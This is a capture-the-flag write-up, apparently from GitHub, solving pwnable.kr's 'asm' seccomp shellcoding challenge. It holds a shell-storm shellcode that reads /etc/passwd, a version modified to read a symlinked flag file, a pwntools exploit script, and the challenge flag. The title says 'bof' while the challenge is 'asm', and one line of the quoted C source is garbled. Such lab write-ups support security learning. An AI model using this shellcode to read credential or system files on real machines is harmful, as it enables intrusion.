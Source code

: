 # bof

## Description

asm - 6 pt

> Mommy! I think I know how to make shellcodes <br>
> ssh asm@pwnable.kr -p2222 (pw: guest)

## Solution

### Background

#### Shellcodes

A shellcode is a set of instructions that can be executed by the processor. Shellcodes are often injected into a program to execute arbitrary code, such as opening a shell or reading a file. Most of times, the injection is done using a buffer overflow, and the execution of the shellcode is done by jumping to the address of the injectioned code.

#### System calls

A syscall is a way for a program to interact with the operating system, and request a service. For example, the syscall `open` will open a file, and the syscall `read` will read the content of a file. 

Syscalls are done by interrupting the processor, and passing control the kernel. The kernel will then execute the syscall, and return the result to the program. 

In practice, the program will call `int` with the right interrupt nubmer - so the interrupt handler will be the kernel. Then, the program will pass the syscall number in the `eax` register, and the arguments in the other registers. After that, the kernel will execute the syscall, and return the result in the `eax` register.

#### seccomp

Seccomp is a Linux kernel feature that allows to restrict the syscalls that a program can use. It is often used to prevent a program from executing arbitrary code, by only allowing a limited set of syscalls.

### Exploit

Logging into the server, we get the following files:

```bash
-rwxr-xr-x 1 root root 13704 Nov 29  2016 asm
-rw-r--r-- 1 root root  1793 Nov 29  2016 asm.c
-rw-r--r-- 1 root root   211 Nov 19  2016 readme
-rw-r--r-- 1 root root    67 Nov 19  2016 this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
```

The `asm.c` file contains the source code of the program, the `readme` file tells us the program runs with the right permissions on port `9026`, and the very long file is only there to inicate the name of the flag file.

Let's take a look at the source code:

```c

#define LENGTH 128

void sandbox(){
	scmp_		_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```

It looks like the program takes a shellcode as input, and executes it. However, a seccomp filter is applied, and the program is only allowed to use the syscalls `open`, `read`, `write`, `exit` and `exit_group`.

Also, the program uses `chroot` to run in `/home/asm_pwn`, so we can't use symlinks in `/tmp` (or can we?).

Our goal is fairly simple: we need to make a shellcode that will open the flag file, read it, and print it to the screen using the `open`, `read` and `write` syscalls.

We can either write our own shellcode, or simply look one up online. The website [shell-storm](http://shell-storm.org/shellcode/) is a good place to look for shellcodes, and it seems like [this](https://shell-storm.org/shellcode/files/shellcode-878.html) `/etc/passwd` reader is a good starting point.

Here are the instructions:

```asm
_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
```

And this is the actual shellcode:
```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

As we've already stated, the above shellcode reads the `/etc/passwd` file. We need to modify it to read the flag file instead.

Before doing that, there are 2 observations we need to make here:

* the path of the file read by the shellcode is stored in the very last bytes, and is terminated by the `A` character - to avoid a null byte inside the shellcode.

* the program `xor`s the last byte of the path with `0x41` - to get that nullbyte back, and so if we change the length of the path, we need to change the offset of the `xor` instruction accordingly.

Having that in mind, a quick modification of the shellcode is to change the path to `/tmp/a/flag`. The length of this new path is the same as `/etc/passwd`, so we don't need to change the offset of the `xor` instruction:

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x74\x6D\x70\x2F\x61\x2F\x66\x6C\x61\x67\x41
```

By creating a symlink in `/tmp/a` to the flag file, we can read the flag file using the modified shellcode.

And so, the final exploit is:

```python
from pwn import *

# create a symlink in /tmp
ssh = ssh('asm', 'pwnable.kr', port=2222, password='guest')

ssh.mkdir('/tmp/a')
SSHPath('/tmp/a/flag', ssh=ssh).symlink_to('/home/asm_pwn/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')

# connect to the server and send the shellcode
con = remote('pwnable.kr', 9026)

con.sendline('\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x74\x6D\x70\x2F\x61\x2F\x66\x6C\x61\x67\x41')

con.interactive()
```

```
Mak1ng_shelLcodE_i5_veRy_eaSy
```